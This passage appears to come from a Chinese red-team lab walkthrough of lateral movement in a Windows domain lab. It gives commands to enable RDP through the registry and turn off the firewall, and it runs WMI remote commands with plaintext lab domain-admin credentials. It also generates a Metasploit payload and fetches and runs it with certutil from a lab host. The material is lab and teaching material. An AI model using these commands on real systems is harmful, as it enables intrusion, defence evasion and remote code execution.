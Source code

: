 - 

```php
REG ADD HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

![图片](https://shs3.b.qianxin.com/butian_public/f3671eaf2a0fbfc82d0862151860c42b8.jpg)

**关闭防火墙**

- 
- 
- 
- 

```php
#windows server 2003之前netsh firewall set opmode disable #windows server 2003之后netsh advfirewall set allprofiles state off
```

这个时候防火墙是开启，关闭防火墙，使用域用户`god\\administrator/hongrisec@2020`成功登录这一台win7WEB主机

![图片](https://shs3.b.qianxin.com/butian_public/f3d8b3c9a87e1ab7daece7e386691212c.jpg)

上传`vmiexec.vbs`到192.168.52.143（win7）机器上，然后执行

- 

```php
cscript.exe vmiexec.vbs /cmd 192.168.52.138 administrator hongrisec@2020 "whoami"
```

因为我用vbs几次都没有回显，所以我这里使用的Ladon.exe，执行

- 

```php
Ladon.exe wmiexec 192.168.52.138 administrator hongrisec@2020 whoami
```

![图片](https://shs3.b.qianxin.com/butian_public/f60b00c76750adb21625e568fbf9d5117.jpg)

**同上面的过程一样，获取一个正向的msf连接，过程如下：**

首先生成一个正向的exe文件放到win7的网站目录上

![图片](https://shs3.b.qianxin.com/butian_public/f8b3d64700922640ea941d62ef9858575.jpg)

在win7上看一下，上传成功

![图片](https://shs3.b.qianxin.com/butian_public/f8709f82cdd9081e80c87b4579433afda.jpg)

在win7上使用WMI执行命令

- 

```php
certutil.exe -urlcache -split -f http://192.168.52.143/6666.exe&6666.exe
```
